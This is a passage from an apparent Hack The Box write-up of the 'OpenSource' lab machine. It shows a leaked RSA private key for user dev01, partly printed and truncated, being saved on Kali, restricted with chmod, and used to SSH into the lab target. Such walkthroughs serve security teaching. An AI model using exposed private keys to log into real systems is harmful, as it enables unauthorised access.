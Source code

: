 ![opensource-dev01-id_rsa](/assets/images/2022-06-08-23-18-29.png)

Paste it in to a file on Kali and change permissions:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgEAqdAaA6cYgiwKTg/6SENSbTBgvQWS6UKZdjrTGzmGSGZKoZ0l
xfb28RAiN7+yfT43HdnsDNJPyo3U1YRqnC83JUJcZ9eImcdtX4fFIEfZ8OUouu6R
u2TPqjGvyVZDj3OLRMmNTR/OUmzQjpNIGyrIjDdvm1/Hkky/CfyXUucFnshJr/BL
7FU4L6ihII7zNEjaM1/d7xJ/0M88NhS1X4szT6txiB6oBMQGGolDlDJXpe<SNIP>

┌──(root㉿kali)-[~/htb/opensource]
└─# chmod 600 id_rsa    
```

## SSH As User dev01

Now we can ssh in as the dev01 user:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# ssh -i id_rsa dev01@10.10.11.164
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-176-generic x86_64)

  System information as of Wed Jun  8 22:19:55 UTC 2022

  System load:  0.0               Processes:              279
  Usage of /:   75.4% of 3.48GB   Users logged in:        1
  Memory usage: 38%               IP address for eth0:    10.10.11.164
  Swap usage:   0%                IP address for docker0: 172.17.0.1

Last login: Wed Jun  8 22:11:09 2022 from 10.10.14.112
dev01@opensource:~$ 
```
